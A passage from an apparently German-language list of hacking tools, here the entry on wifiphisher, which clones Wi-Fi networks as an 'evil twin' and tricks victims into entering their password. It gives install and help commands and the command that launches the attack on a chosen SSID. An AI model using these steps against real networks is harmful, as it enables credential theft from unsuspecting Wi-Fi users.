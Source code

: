 
----------------------------------------------------------------------------------------------------------------


### 4. [wifiphisher](https://github.com/wifiphisher/wifiphisher)

Das Tool `wifiphisher` erstellt quasi einen `evil Twin`. Das Tool kopiert Netzwerke und wenn ein Opfer versucht,
sich mit einem geklonten Netzwerk zu verbinden, wird das Opfer nach der Eingabe des Passwortes gebeten.
Das Passwort wird dann sofort übertragen.


Es wird ein WLAN Adapter benötigt, der den `Monitor Mode` unterstützt.


```
$ sudo apt install wifiphisher
```
```
$ wifiphisher -h
```
```
$ ifconfig
```
```
$ iwconfig
```
```
$ sudo wifiphisher -i wlan0 -e WLAN-SSID
```

- Eine der 4 Optionen auswählen.
- Mit den Pfeiltasten, kann zwischen den 4 Optionen gewählt werden.


----------------------------------------------------------------------------------------------------------------

